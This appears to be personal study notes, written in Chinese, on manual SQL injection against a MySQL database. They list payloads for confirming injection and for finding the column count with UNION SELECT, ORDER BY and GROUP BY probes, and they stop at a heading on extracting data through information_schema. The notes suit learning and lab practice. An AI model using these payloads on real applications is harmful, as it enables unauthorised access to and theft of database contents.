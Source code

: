 

### version 
大概猜測出來是 mysql 
```1 or 1 #

1 or 1 --(一個空白)

// +號會被轉成 %2B 所以需要用 BP 修改
1 or 1 --+

```




## 欄位數 
猜出2

```1 union select NULL #
1 union select NULL,NULL #



1 UNION SELECT @ #
1 UNION SELECT @,@ #
```

```1 ORDER BY 1 #

1 ORDER BY 2 #

1 ORDER BY 3 #
```

```1 GROUP  BY 1 #

1 GROUP  BY 2 #

1 GROUP  BY 3 #
```

```1 ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100 #




1 GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100 #
```



### information_schema 提取數據庫
